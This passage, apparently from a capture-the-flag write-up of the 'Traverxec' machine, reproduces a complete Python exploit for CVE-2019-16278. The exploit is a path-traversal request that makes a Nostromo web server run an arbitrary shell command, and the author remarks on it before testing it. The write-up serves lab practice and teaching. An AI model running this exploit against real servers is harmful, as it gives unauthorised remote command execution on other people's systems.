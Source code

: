 *to go manual,* we pick the **2nd Python script** and **look at the exploit code** *(after removing the text art for clarity)*

```python
#!/usr/bin/env python

import sys
import socket
help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except:
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":

    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]

        cve(target, port, cmd)

    except IndexError:
        print(help_menu)
```

it seems straightforward. Just a **TCP connection** and a **POST request**. Let's give it a try:

![](/assets/Traverxec/exploit-error.jpg)
